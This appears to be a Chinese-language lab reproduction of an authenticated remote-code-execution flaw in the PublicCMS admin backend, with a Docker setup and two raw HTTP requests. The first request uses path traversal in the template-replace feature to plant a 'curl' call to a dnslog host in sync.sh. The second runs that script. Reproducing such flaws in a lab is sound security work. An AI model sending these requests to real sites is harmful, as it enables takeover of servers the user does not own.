 # PublicCMS 后台模块 站点执行脚本RCE漏洞

PublicCMS是采用2023年主流技术开发的开源JAVACMS系统。由天津黑核科技有限公司开发，架构科学，轻松支撑上千万数据、千万PV；支持可视化编辑，多维扩展，全文搜索，全站静态化，SSI，动态页面局部静态化，URL规则完全自定义等为您快速建站，建设大规模站点提供强大驱动，也是企业级项目产品原型的良好选择.

项目下载地址

https://github.com/sanluan/PublicCMS/tree/master

参考链接：

- https://blog.csdn.net/shelter1234567/article/details/136945534



## 漏洞环境



执行如下命令启动一个PublicCMS_V4.0.202302.e-web

```
docker compose up -d
```



环境启动后，访问`http://your-ip:80`跳转到PublicCMS 安装向导页面。

![image-20240322135326371](./1.png)

配置mysql数据库链接

![image-20240322140237169](./2.png)

配置管理员密码

![image-20240322140318276](./3.png)

## 漏洞复现

需登录后台

1，利用替换文本的功能，将指定脚本内容替换成执行的命令

这里点击替换，拦截请求包

![](https://img-blog.csdnimg.cn/direct/3be243b3ce8349cabd013ffc85090c04.png)

将请求包替换如下

```
POST /admin/cmsTemplate/replace?navTabId=cmsTemplate/list HTTP/1.1
Host: 192.168.116.128:8080
Content-Length: 231
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.116.128:8080
Referer: http://192.168.116.128:8080/admin/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.1.2049876865.1708327587; _ga_ZCZHJPMEG7=GS1.1.1709204007.4.0.1709204007.0.0.0; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1709286898; wp-settings-time-1=1709712213; __test=1; PHPSESSID=24f91b2fbd6bac87f2d9367daf080f5d; PUBLICCMS_ANALYTICS_ID=3a91f834-b96d-451b-a953-6739bcff6ca0; PUBLICCMS_ADMIN=1_27f0e838-371b-4207-b689-7078a11597be; JSESSIONID=4A1EE8F4304421DFE63BE59ABDB77B25
Connection: close

_csrf=[[you_csrf]]&word=stty%20-echo&replace=curl%205s6w5i.dnslog.cn&replaceList%5B0%5D.path=..%2F..%2Fscript%2Fsync.sh&replaceList%5B0%5D.indexs=0&replaceList%5B0%5D.indexs=1&replaceList%5B1%5D.path=..%2F..%2Fscript%2Fsync.sh&replaceList%5B1%5D.indexs=0
```

注意有_csrf 大概率不能重发包  ，&replace=curl%205s6w5i.dnslog.cn这里是我们想执行的命令

2，进入站点模块，去执行 sync.sh脚本，参数随意值点击执行即可

![](https://img-blog.csdnimg.cn/direct/02d6791b04044baa9509c87fb6af54be.png)

```
POST /admin/sysSite/execScript?navTabId=sysSite/script HTTP/1.1
Host: 192.168.116.128:8080
Content-Length: 72
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.116.128:8080
Referer: http://192.168.116.128:8080/admin/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.1.2049876865.1708327587; _ga_ZCZHJPMEG7=GS1.1.1709204007.4.0.1709204007.0.0.0; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1709286898; wp-settings-time-1=1709712213; __test=1; PHPSESSID=24f91b2fbd6bac87f2d9367daf080f5d; PUBLICCMS_ANALYTICS_ID=3a91f834-b96d-451b-a953-6739bcff6ca0; PUBLICCMS_ADMIN=1_27f0e838-371b-4207-b689-7078a11597be; JSESSIONID=4A1EE8F4304421DFE63BE59ABDB77B25
Connection: close

_csrf=[[you_csrf]]&command=sync.bat&parameters=1
```

